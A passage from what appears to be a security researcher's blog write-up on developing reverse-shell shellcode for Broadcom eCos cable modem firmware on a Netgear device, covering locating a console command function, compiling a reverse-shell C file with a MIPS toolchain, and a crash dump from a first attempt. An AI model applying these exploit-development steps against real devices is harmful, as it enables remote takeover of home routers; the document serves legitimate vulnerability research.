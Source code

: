 {:.foo}
![ecos_command_offset_netgear]({{site.url}}/assets/ecos_command_offset_netgear.png)

If you're looking for *BcmConsoleExecuteCurrentCommand*, cross-reference the string *'is not a valid command table'*. The function
that references that string is *BcmConsoleExecuteCurrentCommand*. You can then cross-reference calls to that function and identify
the proper command offset that you need to use for your target.

### Compiling Shellcode

To compile C code for our target you'll need to obtain the right toolchain. You can either download it from [the Internet](http://ftp.twaren.net/Unix/sourceware.org/ecos/gnutools/i386linux/ecoscentric-gnutools-mipsisa32-elf-1.4-2.i386linux.tar.bz2) if you're brave enough. Or build it yourself such as described in [eCOS Firmware Analysis with Ghidra](#TODO) (remember, we needed the toolchain to build eCOS shared libraries).

Once your toolchain is set, you can compile it to an object file with gcc and then exporting a raw binary file from it:

{% highlight bash %}
${TOOLCHAIN_HOME}/mipsisa32-elf-gcc -O3 -c reverseshell.c -o reverseshell.o
${TOOLCHAIN_HOME}/mipsisa32-elf-objcopy -O binary reverseshell.o shellcode.raw
{% endhighlight %}

#### Relative Jump Issues

If we use this shellcode as-is, we'll encounter one problem: the device crash after executing the first command we send.

This is the exact crash I got:

{% highlight asm %}
>>> YIKES... looks like you may have a problem! <<<

r0/zero=00000000 r1/at  =00000000 r2/v0  =00000001 r3/v1  =815e0000
r4/a0  =861a4328 r5/a1  =87d6fae8 r6/a2  =86485d80 r7/a3  =86485fc0
r8/t0  =86485fc0 r9/t1  =00000408 r10/t2 =5e97d3bd r11/t3 =000043e0
r12/t4 =00000001 r13/t5 =7472756d r14/t6 =5f616e61 r15/t7 =6c797a65
r16/s0 =80d3fce8 r17/s1 =00000005 r18/s2 =86e01d4c r19/s3 =861a4328
r20/s4 =00000039 r21/s5 =80d9642c r22/s6 =86e00ccc r23/s7 =8024e2ec
r24/t8 =00000000 r25/t9 =00000000 r26/k0 =00000000 r27/k1 =00000000
r28/gp =8161e5d0 r29/sp =86486028 r30/fp =80d3f414 r31/ra =864df2d0

PC   : 0x800000a8    error addr: 0x00000000
cause: 0x1000002c    status:     0x1000ff03

BCM interrupt enable: 18024085, status: 00000000
Instruction at PC: 0xd7f7fffb
iCache Instruction at PC: 0xa3a0001c

Return address (864df2d0) invalid.  Trace stops.
{% endhighlight %}

Let's decompile our shellcode with radare2 to understand what's happening !
